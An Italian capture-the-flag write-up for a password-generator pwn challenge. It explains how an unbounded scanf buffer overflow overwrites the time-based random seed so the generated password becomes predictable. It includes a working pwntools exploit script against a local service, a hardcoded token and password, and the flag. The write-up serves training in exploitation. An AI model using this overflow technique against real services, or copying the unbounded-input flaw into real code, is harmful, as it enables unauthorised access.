# Password Generator (`pswgenerator`)

La challenge espone un servizio remoto (`nc localhost 20010`) ed il binario corrispondente, che presumibilmente 'genera' delle password.
La generazione delle password e l'implementazione del programma sembrano corrette, ma analizzando bene il decompilato ci si accorge di una parte critica in questa sezione:

![vuln](vuln.png)

- Lo `scanf()` di `nome` non ha un limite sui caratteri inseriti (`%s`), permettendo un buffer overflow.
- Il seed viene assegnato con time(0) prima che questo `scanf()` venga chiamato, quindi overflowando il nome si può sostituirlo (se il layout di memoria lo consente).

![layout](layout.png)

Osservando il frame della funzione, capiamo di poterlo fare.

A questo punto l'exploit è chiaro, basterà sovrascrivere il seed ad un valore deciso da noi sfruttando il **buffer overflow**, e prevedere quindi la password generata.
Per farlo si può o riscrivere il codice con il nostro seed, o per i più pigri debuggare il binario con un debugger (es. `gdb`) e prendere il valore in **runtime**.

Fatto questo basterà reversare il binario per trovare il token **segretissimo** e scrivere la password giusta, e si riceverà la flag.

**Nota:** Normalmente i compilatori, fra le altre ottimizzazioni, riordinano le variabili mettendo i buffer dopo le variabili (es. `int`). Per rendere la challenge exploitabile, le variabili sono state messe in uno struct packed, altrimenti il seed sarebbe stato sopra al nome.

Esempio di exploit:
```python
from pwn import *

context.binary = ELF('attachments/pswgenerator')
p = remote('localhost', 20010)

payload = b'A'*64 + b'B'*8

print(p.recvuntil(b'Come ti chiami?').decode())
p.sendline(payload)

print(p.recvuntil(b'.com/)'))
p.sendline(b'supersafeunguessabletoken')

password = b'Yy?6V9yCpO\W~KL\W?2]eT:E1mZzPmgzgG2^qLrc<p;;<y8dY<c@a>V3|1NM@ViH' # preso con gdb
print(p.recvuntil(b'la flag!').decode())
p.sendline(password)

p.interactive()
```

Flag: `rossiCTF{4pP4r3N7ly_th3_p4Ssw0rD_W45n7_s0_54f3..._a3f9c1}`